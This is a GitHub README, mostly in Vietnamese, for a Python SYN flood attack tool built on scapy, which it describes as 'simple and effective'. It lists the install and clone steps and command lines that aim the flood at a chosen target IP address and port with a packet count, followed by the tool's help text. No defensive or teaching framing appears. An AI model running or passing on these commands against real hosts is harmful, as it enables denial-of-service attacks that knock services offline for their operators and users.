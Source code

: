 # Python2/3-SYN-Flood-Attack-Tool

[![](https://img.shields.io/github/issues/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/issues)
[![](https://img.shields.io/github/stars/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/stargazers)
[![](https://img.shields.io/github/forks/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/network/members)

Công cụ tấn công lũ lụt Python SYN

Bạn có thể bắt đầu cuộc tấn công SYN Flood bằng công cụ này.

Đơn giản và hiệu quả.

## Sự phụ thuộc
```
apt install python-scapy
apt install python3-scapy
```

## Cài đặt

```
git clone https://github.com/DauDau432/SYN-Flood-Attack-Tool
cd SYN-Flood-Attack-Tool
```

## Cách sử dụng

```
python3 py3_synflood_cmd.py -t 10.20.30.40 -p 8080 -c 5
python3 py3_SYN-Flood.py
python SYN-Flood.py
```
```
cách sử dụng: py3_synflood_cmd.py [--help] [--target TARGET] [--port PORT]
                           [--count COUNT] [--version]
đối số tùy chọn:
  --help, -h hiển thị thông báo trợ giúp này và thoát
  --target TARGET, -t TARGET
địa chỉ IP mục tiêu
  --port PORT, -p PORT số cổng mục tiêu
  --count COUNT, -c ĐẾM
số lượng gói tin
  --version, -v hiển thị số phiên bản của chương trình và thoát

ví dụ: python3 py3_synflood_cmd.py -t 10.20.30.40 -p 8080 -c 1
```

![alt tag](https://emreovunc.com/projects/python_synflood_attack_cmd.png)

![alt tag](https://emreovunc.com/projects/Syn_Flood_01.png)

![alt tag](https://emreovunc.com/projects/Syn_Flood_02.png)
